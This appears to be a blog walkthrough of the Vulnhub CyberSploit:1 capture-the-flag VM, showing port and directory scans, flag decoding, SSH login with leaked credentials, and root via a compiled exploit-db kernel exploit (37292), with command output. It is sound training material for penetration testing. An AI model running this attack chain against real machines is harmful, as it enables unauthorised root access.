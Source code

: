```yaml
---
date: 2020-07-27 00:01:45
layout: post
title: "CyberSploit 1 Vulnhub Walkthrough"
subtitle:
description: CyberSploit:1 is a boot2root VM from Vulnhub. This is the first part of the Vulnhub's CyberSploit Series.
image: /assets/img/uploads/cybersploit-1/cyber-robot.png
optimized_image: /assets/img/uploads/cybersploit-1/cyber-robot-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: cybersploit 1, cybersploit 1 vulnhub, cybersploit 1 walkthrough, cybersploit 1 vulnhub walkthrough, cybersploit 1 writeup, vulnhub cybersploit walkthrough, cybersploit writeup, infosec articles
---
```


Today I will be sharing a walkthrough of CyberSploit:1, a boot2root VM available on Vulnhub. This is the first part of the Vulnhub's CyberSploit Series and rated easy. It consists of three flags and our goal is to read all the three flags. I have added the IP address of the machine to the hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.7     cybersploit
```

## Enumeration 

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/initial cybersploit

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for cybersploit (192.168.1.7)
Host is up (0.00027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
MAC Address: 08:00:27:FF:BD:6F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```
We see a ssh port open and a port 80 open which is running an Apache 2.2.22 web server. Looking at port 80 on the web browser, we see a GIF. Looking at the page source, I found a username <b>itsskv.</b> This might be useful in future! 

<img src="/assets/img/uploads/cybersploit-1/username.png">

This web application is not much functional, so next I decided to run a gobuster scan to look for hidden pages.

```r
root@kali:~# gobuster dir -u http://cybersploit -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://cybersploit
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/index (Status: 200)
/index.html (Status: 200)
/robots (Status: 200)
/robots.txt (Status: 200)
/hacker (Status: 200)
/server-status (Status: 403)
===============================================================
Finished
===============================================================
```

The hacker page is simply the GIF we see in the home page but robots or robots.txt has some interesting information.

<img src="/assets/img/uploads/cybersploit-1/robots.png">

It contains some string which is most probably base64, after decoding it, we can read our first flag! That was easy!

```r
root@kali:~# echo -n R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 | base64 -d

Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

We can now login into the target machine via ssh using username <b>itsskv</b> and password:<br><b>cybersploit{youtube.com/c/cybersploit}.</b>

```r
root@kali:~# ssh itsskv@cybersploit

Warning: Permanently added the ECDSA host key for IP address '192.168.1.7' to the list of known hosts.

itsskv@cybersploits password:
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Sat Jun 27 10:14:39 2020 from cybersploit.local
itsskv@cybersploit-CTF:~$
```

After logging in as user itsskv, I found a <b>flag2.txt</b> in the same directory, but this flag is encoded into binary. 

```r
itsskv@cybersploit-CTF:~$ cat flag2.txt 
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

We can easily decode it using <a href="https://gchq.github.io/CyberChef/">Cyber Chef</a> and read our second flag!

<img src="/assets/img/uploads/cybersploit-1/cyberchef.png">

## Privilege Escalation

The root is quite simple. Looking at the output of <b>uname -a</b> command, I found that this machine is using an old version of kernel which is vulnerable to many exploits. 

```r
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

I decided to go with <a href="https://www.exploit-db.com/exploits/37292">this</a> exploit. Just download and compile this exploit in the target machine and execute the binary.

```r
itsskv@cybersploit-CTF:~$ gcc 37292.c -o exploit
itsskv@cybersploit-CTF:~$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
# python -c 'import pty;pty.spawn("/bin/bash")'
root@cybersploit-CTF:/home/itsskv#
```
Yeaah! We are root! Now we can read our final flag present in the root directory.

```r
root@cybersploit-CTF:/home/itsskv# cat /root/finalflag.txt 
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/benbely">Mia Ditmanson.</a>